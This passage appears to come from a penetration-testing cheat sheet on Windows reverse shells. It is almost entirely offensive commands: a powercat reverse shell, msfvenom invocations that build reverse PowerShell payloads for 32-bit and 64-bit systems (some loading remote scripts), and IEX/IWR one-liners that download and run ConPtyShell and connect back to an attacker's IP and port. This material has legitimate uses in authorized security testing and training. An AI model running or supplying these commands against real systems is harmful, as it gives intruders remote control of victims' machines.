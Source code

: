```
> powercat -c <IP> -p <PORT> -e cmd.exe -rep
```

#### 04 - `msfvenom`

##### 4.1 - x86 (32-bit) Payloads

```
$ msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f raw -o payload.bat
```

You can load powershell scripts ahead of time.

```
$ msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o payload.ps1

$ msfvenom -p windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o payload.ps1
```

##### 4.2 - x86-64 (64-bit) Payloads

You can load powershell scripts ahead of time.

```
$ msfvenom -p windows/x64/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell-x64.ps1
```

#### 05 - Fully Interactive PowerShell

^56e959

##### 5.1 - Method One

This will set the terminal size automatically without passing the `rows` and `cols` manually.

```
PS C\> IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <attacker_IP> <attacker_PORT>
```

##### 5.2 - Method Two

When you encounter an problem to ensure that the `cols` and `rows` are set manually. Here you should use the values read from `stty size` command in the Parameters `-Rows` and `-Cols`

```
PS C\> IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp <attacker_IP> -RemotePort <attacker_PORT> -Rows <rows> -Cols <columns>
```

##### 5.3 - Method Three

Here you should use the values read from `stty size` command in the Parameters `-Rows` and `-Cols`.

```
PS C\> IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -Upgrade -Rows <rows> -Cols <columns>
```
